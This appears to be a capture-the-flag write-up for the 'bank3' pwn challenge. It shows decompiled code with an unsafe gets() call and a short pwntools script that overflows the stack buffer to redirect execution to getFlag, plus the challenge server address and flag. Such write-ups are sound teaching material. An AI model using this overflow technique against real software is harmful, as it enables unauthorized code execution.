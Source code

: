 ## bank3 (100 points)

#### Solved by hieplpvip

```
nc 61.28.237.24 30204

author: xikhud
```

`bank3` is very similar to `bank2`, except that the part which calls `getFlag` is removed:

```cpp
void Register()
{
  char name[64]; // [esp+Ch] [ebp-4Ch]
  int balance; // [esp+4Ch] [ebp-Ch]

  balance = 0;
  printf("[+] Please enter your name: ");
  gets(name);
  printf("[+] Thanks for the registration, your balance is %d.\n", balance);
}
```

We exploit buffer overflow to overwrite the return address with the address of `getFlag`:

```py
from pwn import *
elf = ELF('./bank3')
conn = remote('61.28.237.24', 30204)
conn.sendlineafter('name:', b'a' * 80 + p32(elf.symbols['getFlag']))
conn.interactive()
```

**Flag:** `HCMUS-CTF{overwrite_all_the_things}`
